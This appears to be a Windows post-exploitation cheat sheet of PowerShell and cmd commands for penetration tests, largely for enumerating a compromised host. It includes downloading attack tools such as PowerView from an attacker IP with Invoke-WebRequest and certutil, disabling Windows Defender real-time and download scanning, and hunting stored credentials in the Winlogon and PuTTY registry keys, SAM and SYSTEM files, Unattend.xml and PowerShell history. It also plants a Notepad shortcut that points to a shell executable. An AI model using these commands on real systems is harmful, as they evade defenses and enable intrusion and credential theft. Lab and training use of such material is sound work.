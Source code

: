 Download Files
```Powershell
Invoke-WebRequest -Uri http://10.10.14.176:8000/PowerView.ps1 -OutFile PowerView.ps1

curl -o example.txt http://example.com/file.txt

certutil.exe -urlcache -split -f http://<ip>/file file_save

timedatectl set-ntp 0

ntpdate $IP
```

Get Processes
```powershell
Get-Process | Format-Table -Property Name, Id, CPU, WorkingSet -AutoSize

Get-Process -Name "notepad"
```

List Network Connections
```powershell
netstat -aon

arp -a

ipconfig /all

route print
```

Connect to a machine with admin perms
```
Enter-PSSession -Computername <computername>
```

Shortcuts
```Powershell
$targetPath = "C:\xampp\htdocs\5shell.exe"
$shortcutPath = "C:\Common Applications\Notepad.lnk"
$shell = New-Object -ComObject WScript.Shell
$shortcut = $shell.CreateShortcut($shortcutPath)
$shortcut.TargetPath = $targetPath
$shortcut.Save()
```
### Who Am I?
```powershell
whoami
echo %username%

# Check Groups
whoami /groups

# Check Privileges
whoami /priv

whoami /all
```

### Where Am I?
```powershell
hostname
echo %hostname%
```
### Anyone home?
Local users
```powershell
net users

Get-ADUser <username> -Properties MemberOf
```

Domain users
```powershell
net users /domain
```
### What am I part of?
Local groups
```powershell
net groups
```

Domain groups
```powershell
net groups /domain
```
### What is this place?
```text
systeminfo
```
### Is it fancy?
Both should be the same for ease of exploitation, if either is 32-bit then try to gain a 64-bit shell.  
Use PowerShell
```powershell
[environment]::Is64BitOperatingSystem
[environment]::Is64BitProcess
```
### Am I tied up?
Check LanguageMode. FullLanguage is nicer to have.  
```powershell
$ExecutionContext.SessionState.LanguageMode
```
### Anything reachable?
```powershell
Get-AppLockerPolicy -Effective
Get-AppLockerPolicy -Effective | select -ExpandedProperty RuleCollections
```
### What does the inside look like?
Look for interesting services
```powershell
netstat -aon
```
### Leave me alone
Do you have admin privs?  

Disable Windows Defender real time monitoring
```powershell
Get-MpComputerStatus

# List excluded directories
Get-MpPreference | Select-Object -ExpandProperty ExclusionPath

Set-MpPreference -DisableRealTimeMonitoring $true	
```

Disable Windows Defender scanning for all files downloaded
```powershell
Set-MpPreference -DisableIOAVProtection $true	
```

### Sniff for Credentials
Common creds location, always in plaintext
```powershell
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogin"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```

Look for interesting files that may contain creds
```powershell
dir /s SAM
dir /s SYSTEM
dir /s Unattend.xml
```

### Look Around
```powershell
#Starting, Restarting and Stopping services in Powershell
Start-Service <service>
Stop-Service <service>
Restart-Service <service>

#Powershell History
Get-History
(Get-PSReadlineOption).HistorySavePath #displays the path of consoleHost_history.txt
type C:\Users\sathvik\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

#Viewing installed execuatbles
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

#Process Information
Get-Process
Get-Process | Select ProcessName,Path

#Sensitive info in XAMPP Directory
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue #this for a specific user

#Service Information
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```